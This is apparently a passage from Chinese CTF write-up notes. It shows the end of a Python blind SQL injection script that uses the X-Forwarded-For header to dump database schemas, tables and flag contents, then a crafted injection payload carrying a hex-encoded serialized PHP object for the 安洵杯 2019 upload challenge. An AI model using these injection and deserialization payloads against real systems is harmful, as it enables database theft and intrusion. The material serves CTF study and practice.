 ```python
        r = session.get(target, headers={'X-Forwarded-For': 'glzjin'})    # 再次查询得到结果
        start_pos = r.text.find("Last Ip: ")
        end_pos = r.text.find(" -->", start_pos)
        result = int(r.text[start_pos + 9: end_pos])
        return_result += bytes.fromhex(hex(result)[2:]).decode('utf-8')

        print("[+]位置 " + str(i) + " 请求五位成功:" + bytes.fromhex(hex(result)[2:]).decode('utf-8'))

    return return_result


# 获取数据库
print("[+]获取成功：" + execute_sql("SELECT group_concat(SCHEMA_NAME) FROM information_schema.SCHEMATA"))

# 获取数据库表
print("[+]获取成功：" + execute_sql("SELECT group_concat(TABLE_NAME) FROM information_schema.TABLES WHERE TABLE_SCHEMA = 'F4l9_D4t4B45e'"))

# 获取数据库表
print("[+]获取成功：" + execute_sql("SELECT group_concat(COLUMN_NAME) FROM information_schema.COLUMNS WHERE TABLE_SCHEMA = 'F4l9_D4t4B45e' AND TABLE_NAME = 'F4l9_t4b1e' "))

# 获取表中内容
print("[+]获取成功：" + execute_sql("SELECT group_concat(F4l9_C01uMn) FROM F4l9_D4t4B45e.F4l9_t4b1e"))
```



# [安洵杯 2019]不是文件上传

[安洵杯2019 官方Writeup(Web/Misc) - D0g3 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/6911#toc-6)

源码泄露->代码审计->上传文件导致sql注入，在查看图片信息的页面(show.php)会对其进行反序列化，将序列化的数据利用sql查到数据库，访问show.php

正常sql语句

```
INSERT INTO images (`title`,`filename`,`ext`,`path`,`attr`) VALUES('TIM截图
20191102114857','f20c76cc4fb41838.jpg','jpg','pic/f20c76cc4fb41838.jpg','a:2:{s:5:"width";i:1264;s:6:"height";i:992;}')
```

title可控，所以插入语句

```
1','1','1','1',0x4f3a363a2268656c706572223a323a7b733a393a225c305c305c30696676696577223b623a313b733a393a225c305c305c30636f6e666967223b733a353a222f666c6167223b7d),('1.jpg
```



# [SUCTF 2018]GetShell
